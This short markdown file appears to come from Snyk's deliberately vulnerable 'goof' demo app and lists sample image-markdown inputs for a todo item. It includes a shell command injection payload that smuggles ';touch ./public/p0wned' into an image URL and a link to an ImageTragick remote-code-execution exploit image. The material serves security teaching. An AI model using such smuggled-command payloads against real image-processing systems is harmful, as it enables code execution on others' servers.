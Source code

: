 ### Example
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/feat/oreilly/exploits/snyk.png "Image todo item")
```


### Shell Command Injection
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/feat/oreilly/exploits/snyk.png;touch ./public/p0wned "Image todo item")
```

### Code Execution - ImageTragick vulnerability
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/master/exploits/imagetragick_rce1.png "Image todo item")
```





